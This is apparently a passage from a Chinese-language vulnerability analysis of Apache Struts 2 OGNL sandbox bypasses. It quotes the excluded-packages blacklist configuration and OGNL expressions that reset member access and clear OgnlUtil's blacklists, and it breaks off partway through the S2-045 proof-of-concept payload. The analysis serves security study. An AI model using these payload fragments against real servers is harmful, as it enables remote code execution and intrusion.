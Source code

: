 ```

ognl.OgnlContext,

ognl.ClassResolver,

ognl.TypeConverter,

ognl.MemberAccess,

ognl.DefaultMemberAccess,

com.opensymphony.xwork2.ognl.SecurityMemberAccess,

com.opensymphony.xwork2.ActionContext" /&gt;

&lt;constant name="struts.excludedPackageNames" value="java.lang.,ognl,javax,freemarker.core,freemarker.template" /&gt;
```

绕过：【 PoC 参考 S2-045 ，影响版本 Struts 2.3.5 – Struts 2.3.31, Struts 2.5 – Struts 2.5.10 】

通过 ognl.OgnlContext#setMemberAccess 方法将 DefaultMemberAccess 设为 ognl 表达式计算的规则。

```
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#context.setMemberAccess(#dm))
```

[![](https://p1.ssl.qhimg.com/t013e9f11583ad6fd97.png)](https://p1.ssl.qhimg.com/t013e9f11583ad6fd97.png)

这样无需通过 #_memberAccess 的形式获取实例，而是直接改变 OgnlContext 中的 _memberAccess 属性。但是调用 setMemberAccess 方法会触发检查黑名单，ognl.OgnlContext 俨然在黑名单中，那怎么绕过黑名单呢？

通过 OgnlUtil 改变 SecurityMemberAccess 黑名单属性值：

```
(#container=#context[‘com.opensymphony.xwork2.ActionContext.container’]).

(#ognlUtil= #container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).

(#ognlUtil.getExcludedPackageNames().clear()).

(#ognlUtil.getExcludedClasses().clear())
```

[![](https://p1.ssl.qhimg.com/t014132c9e262bd4fc6.jpg)](https://p1.ssl.qhimg.com/t014132c9e262bd4fc6.jpg)

从上图中可以看出在 StrutsPrepareAndExecuteFilter#doFilter 初始化 OgnlValueStack 中 SecurityMemberAccess 的黑名单集合时是通过 ognlUtil 中的黑名单集合进行赋值的，他们共享同一个黑名单地址，那么是不是将 OgnlUtil 中的黑名单清空 SecurityMemberAccess 中的黑名单也清空了。

故在 PoC 中首先通过容器获取 OgnlUtil 实例， OgnlUtil 是单例模式实现的对象，所以获取到的实例是唯一的，接着调用 get 方法获取黑名单集合，clear 方法清空。

我们可以一起看一下 S2-045 完整的 PoC ：

```
%`{`

(#_='multipart/form-data').

(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).

(#_memberAccess?(#_memberAccess=#dm):(

(#container=#context['com.opensymphony.xwork2.ActionContext.container']).

(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).

(#ognlUtil.getExcludedPackageNames().clear()).
```